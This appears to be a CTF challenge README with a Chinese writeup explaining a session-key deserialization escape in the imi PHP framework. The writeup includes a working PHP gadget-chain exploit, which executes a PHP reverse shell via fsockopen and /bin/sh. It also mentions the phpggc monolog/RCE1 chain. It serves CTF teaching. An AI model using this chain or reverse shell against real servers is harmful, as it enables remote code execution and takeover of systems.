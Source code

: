 # ezosu

# How to Start and Stop
## start
```shell
docker-compose up -d
```

## stop
```shell
docker-compose down --rmi all
```

# writeup

## unsafe session
本题利用了一个名为`imi`的框架。

本题有且只有一个路由由php处理`/config`，其实现如下：

![image-20211229211433630](https://gitee.com/AFKL/image/raw/master/img/image-20211229211433630.png)

这个路由的代码中最惹人注意的地方是，session的键值是可以被用户控制的。

imi框架是用swoole起点的，但swoole本身不支持php的原生session，所以为了兼容原生的session，imi框架自己写了一个session模块，并兼容了原生session。

在原生session文件处理的实现中，开发者使用`|`对属性进行分割，但键名没有过滤，可以插入`|`。如果用户可控键名，那么就会导致反序列化逃逸。

![image-20211229210444085](https://gitee.com/AFKL/image/raw/master/img/image-20211229210444085.png)

## find gadget

那么接下来就是找反序列化链了。本次比赛的选手找到了各种各样的链，这里先说一下预期链：

由于本人在测试时并没有找到`destruct`触发的链。所以基于反序列化函数后的代码尝试触发`toString`。但我们可以看到反序列化得到的对象，经过两行代码后就进入了`serialize`函数中。这意味着我们可以通过触发`__sleep`来触发一条序列化链。

这里是我找到的gadget。
```php
<?php
namespace Symfony\Component\String {
    class LazyString {
        private $value;

        public function __construct($a)
        {
            $this->value = $a;
        }
    }
}

namespace Imi\Aop {
    class JoinPoint {
        protected array $args;
    }

    class AroundJoinPoint extends JoinPoint {
        private $nextProceed;

        public function __construct($a, $b)
        {
            $this->args = $a;
            $this->nextProceed = $b;
        }
    }
}

namespace GrahamCampbell\ResultType {
    class Success {
        private $value;

        public function __construct($a)
        {
            $this->value = $a;
        }
    }
}

namespace {
    $ip = "127%2E0%2E%2E1";
    $re = "php -r '\$sock=fsockopen(urldecode(\"$ip\"),8888);exec(\"/bin/sh -i <&3 >&3 2>&3\");'";

    $exp = new \Symfony\Component\String\LazyString(
        [
            new \Imi\Aop\AroundJoinPoint(
                [new \GrahamCampbell\ResultType\Success($re), "flatMap"], 
                [new \GrahamCampbell\ResultType\Success("system"), "flatMap"]
            ),
            "proceed"
        ]
    );
    echo json_encode(["aaa|".serialize($exp)."aa" => "aaaa"]);
}
```

入口是十分经典的`LazyString`，其`__sleep`会去调用`__toString`方法。一些选手使用此方法以为是什么神秘的地方调用了`__toString`，实际上是调用了`__sleep`方法。

![image-20211229232716199](https://gitee.com/AFKL/image/raw/master/img/image-20211229232716199.png)

这里我们可以调用任意类的公共方法，这里我选择了`Imi\Aop\AroundJoinPoint::proceed`:

![image-20211229232832689](https://gitee.com/AFKL/image/raw/master/img/image-20211229232832689.png)
其参数默认为null，`$args`可以通过父类属性获取，但必须是`array`类型。这个地方的动态调用虽然函数可控，但参数只有一个，且参数类型必须是`array`，是无法getshell的。那么就继续找存在动态调用的公共方法。

最终找到了`GrahamCampbell\ResultType\Success::flatMap`，其参数必须是`callable`类型。

![image-20211229233610931](https://gitee.com/AFKL/image/raw/master/img/image-20211229233610931.png)

动态调用公共方法的数组是被算作`callable`类型的，所以只要利用两次这个方法即可。

![调用流程图](https://gitee.com/AFKL/image/raw/master/img/未命名文件.png)

## other gadget

当然我说过，gadget不止这一条。有人使用`phpggc`的`monolog/RCE1`就直接打穿了（草）。
很想吐槽monolog，你都2.3.5版本了，怎么还不修链，学学人家yii啊，搞的我这道题都是非预期（bushi

还有一些队伍使用`monolog`的`destruct`加其它的类来触发反序列化链，就不说了。

如果抛开`monolog`的话，本题找`destruct`或`wakeup`起点的链其实很难。因为此框架的类属性都是限定类型的，那么找gadget就会变成java那样比较麻烦。目前来看目前没有一个队伍的起点是`imi`框架里的。

## other print

因为开发者设置的特殊规则，session键值中的`.`符号会被解释为子属性。因此链中的`.`符号必须进行特殊处理。比如我这里使用php反弹shell时将会被转义的符号url编码，在执行反弹shell代码的时候再解开。